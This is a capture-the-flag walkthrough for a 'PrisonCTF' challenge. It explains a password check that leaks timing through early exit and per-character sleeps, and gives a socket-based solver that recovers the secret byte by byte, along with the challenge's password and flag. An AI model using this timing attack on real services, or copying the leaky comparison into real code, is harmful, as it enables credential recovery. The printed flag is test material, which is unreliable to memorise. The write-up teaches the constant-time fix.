

# Timed Entry (Guard Room 1) Walkthrough

## Challenge Summary
In this PrisonCTF challenge, players need to bypass the first locked checkpoint inside Fox River Penitentiary. The service asks for a password and returns the flag only if the supplied string matches the secret exactly.

The bug is that the password comparison leaks information through response timing. The server checks the password one character at a time and sleeps briefly after every correct character:

```python
def vulnerable_compare(input_str, secret_str):
    for index, secret_char in enumerate(secret_str):
        if index >= len(input_str):
            return False
        if input_str[index] != secret_char:
            return False
        time.sleep(0.05)
    return len(input_str) == len(secret_str)
```

That delay creates a measurable side channel. A guess with more correct leading characters takes longer to reject, which allows the attacker to recover the password one byte at a time.

## Why the Challenge Is Breakable
The service in `timing_side_channel_challenge.py` is vulnerable because:

1. It compares the password character by character.
2. It exits immediately when a mismatch is found.
3. It sleeps for `0.05` seconds after each correct character.
4. The total response time therefore reveals how many starting characters are correct.

Instead of guessing the whole password at once, the attacker can send many prefixes and measure which one causes the server to respond the slowest. The slowest guess is usually the one with the most correct characters so far.

## Relevant Server Logic
From `timing_side_channel_challenge.py`:

```python
SECRET_PASSWORD = "S3CUR1TY"

def vulnerable_compare(input_str, secret_str):
    for index, secret_char in enumerate(secret_str):
        if index >= len(input_str):
            return False
        if input_str[index] != secret_char:
            return False
        time.sleep(0.05)
    return len(input_str) == len(secret_str)
```

The server returns the flag only when the full supplied password matches:

```python
if vulnerable_compare(password, SECRET_PASSWORD):
    self.wfile.write((FLAG + "\n").encode())
else:
    self.wfile.write(b"Access Denied\n")
```

This means the solve is not about brute-forcing all possible full passwords. It is about measuring timing differences for each next character.

## Solve Strategy
The intended solve is:

1. Connect to the service and wait for the `Password: ` prompt.
2. Try every possible character for the first position.
3. Measure how long the server takes to respond to each guess.
4. Keep the character that causes the longest delay.
5. Repeat the process for the next position using the recovered prefix.
6. Continue until the full password is recovered or the service returns the flag.

Because network timing can be noisy, the solver samples each guess multiple times and averages the results.

## Solver Script
`timing_side_channel_solver.py` automates the attack:

- Connects to the service repeatedly
- Measures round-trip time for each candidate prefix
- Tries each character from the allowed charset
- Picks the candidate with the largest mean delay
- Extends the recovered password one character at a time

The core logic is:

```python
def measure_round_trip(prefix_guess):
    timings = []
    for _ in range(SAMPLES_PER_GUESS):
        with socket.create_connection((HOST, PORT), timeout=TIMEOUT) as sock:
            read_until_prompt(sock)
            start = time.perf_counter()
            sock.sendall((prefix_guess + "\n").encode())
            response = sock.recv(4096)
            elapsed = time.perf_counter() - start
            timings.append(elapsed)
            if b"PrisonCTF{" in response:
                return elapsed, response.decode(errors="replace").strip(), True
    return statistics.mean(timings), "", False
```

And the password recovery loop:

```python
for candidate in CHARSET:
    guess = recovered + candidate
    elapsed, response_text, solved = measure_round_trip(guess)
    candidates.append((elapsed, candidate, response_text))

candidates.sort(reverse=True)
best_time, best_char, _ = candidates[0]
recovered += best_char
```

This works because every correctly matched character adds another `0.05` seconds to the server response.

The solver output looks like this:



## Attack Flow
Example solve flow:

1. Try all possible first characters.
2. Notice that guesses beginning with `S` take longest.
3. Fix the first character as `S`.
4. Try all possible second characters using `S?`.
5. Notice that `S3` takes longest.
6. Continue this process until the full password `S3CUR1TY` is recovered.
7. Submit the full password and receive the flag.

## Flag
The service returns:

```text
PrisonCTF{t1m1ng_15_3v3ryth1ng_42}
```

## Lesson
This challenge demonstrates a classic side-channel bug:

- Early-exit comparisons leak partial correctness.
- Artificial delays amplify the leak and make exploitation easy.
- Repeated measurements can recover secrets even over a network.

For a secure design, comparisons should be performed in constant time using a function such as `hmac.compare_digest()`, and the application should avoid behavior that varies based on how much of a secret was guessed correctly.
